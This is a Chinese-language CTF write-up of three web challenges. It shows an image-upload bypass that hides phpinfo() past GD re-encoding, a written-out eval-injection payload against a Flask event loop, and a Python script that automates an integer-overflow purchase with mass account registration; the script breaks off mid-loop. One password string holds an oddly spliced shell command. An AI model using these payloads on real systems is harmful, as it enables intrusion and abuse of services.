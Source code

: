 ## Upload-IMG
目的很明确, 图片里面存在 `phpinfo()` 就给 flag随便传个图片, 下载下来发现有 `CREATOR: gd-jpeg`,  
应该是在服务器端有二次处理, 不能通过 exif 啥的携带数据, 用 GIMP 创建一张 20x20 图片, 在本地测试了一下  
```php
<?php
$img = imagecreatefromjpeg('/home/rmb122/gd.jpg');
imagejpeg($img, '/home/rmb122/gd-out.jpg', 80);
```
010editor 可以解析格式, fuzz 发现在 ScanData 第三个字节后面写 phpinfo() 不会被处理掉, 传上去就拿到 flag 了.  

### homebrew event loop
审计源码, 发现  
```python
is_action = event[0] == 'a' 
action = get_mid_str(event, ':', ';') 
args = get_mid_str(event, action+';').split('#') 
try: 
    event_handler = eval(action + ('_handler' if is_action else '_function')) 
    ret_val = event_handler(args) 
except RollBackException:
```
取 event_handler 的时候没有过滤, 通过 `?action:funcname%23;...`  
也就是在名字后面加个 `#` 可以绕过必须有后缀的限制, 于是就可以构造  
`?action:trigger_event%23;action:buy;1000%23action:get_flag;1`  
就可以调用 `get_flag_handler` 了, 虽然不能直接得到 flag, 而且交易会回滚, 但是因为  
```python
def trigger_event(event): 
    session['log'].append(event) 
    if len(session['log']) > 5: session['log'] = session['log'][-5:] 
    if type(event) == type([]): 
```
有 log 的原因, 而且会存在 session 里面, 而 flask 的 session 内的数据是存在 cookie 里面的,  
通过 [session_cookie_manager](https://github.com/noraj/flask-session-cookie-manager) 直接就可以解码, 得到在 log 里面的 flag.

### 大吉大利,今晚吃鸡~
通过浏览器插件 `wappalyzer` (应该是分析 Cookie 名称 `revel_session` 获取的) 可以得到后端是 go 写的,  
盲猜有整数溢出, 最后试出来 `2 ** 32` 也就是 `4294967296` 可以溢出买到票, 里面比较迷,  
还以为得什么洞拿到机器人的 token, 结果我自己又注册了个号, 发现可以直接自己移除自己...  
然后写脚本不停自己移除自己就行了, 然后后端分配 id 还是在一个范围内随机的, 不是每次都是新 id, 而且访问速度还有限制  
后面才能好久移除一个 233, 总之跑了好久移除完访问 `/index.html#/main/result` 直接拿到 flag.

```python
import requests
import random
import time

act = 'rmb122'
pwd = 'rmb122sudo ufw status numbered'
mainSess = requests.session()
mainSess.get(f'http://117.51.147.155:5050/ctf/api/login?name={act}&password={pwd}')


for i in range(1,999):
    tmpact = 'laioqoLKJHSLJDKHKJrmb122' + 'QAQ' + str(i)
    tmppwd = 'zxczxczxczxcczx'
    tmp = requests.session()
    tmp.get(f'http://117.51.147.155:5050/ctf/api/register?name={tmpact}&password={tmppwd}')
    tmp.get('http://117.51.147.155:5050/ctf/api/buy_ticket?ticket_price=4294967296')
    bill = tmp.get('http://117.51.147.155:5050/ctf/api/search_bill_info').json()['data'][0]['bill_id']
    tmp.get(f'http://117.51.147.155:5050/ctf/api/pay_ticket?bill_id={bill}')
    res = tmp.get('http://117.51.147.155:5050/ctf/api/search_ticket').json()
    id = res['data'][0]['id']
```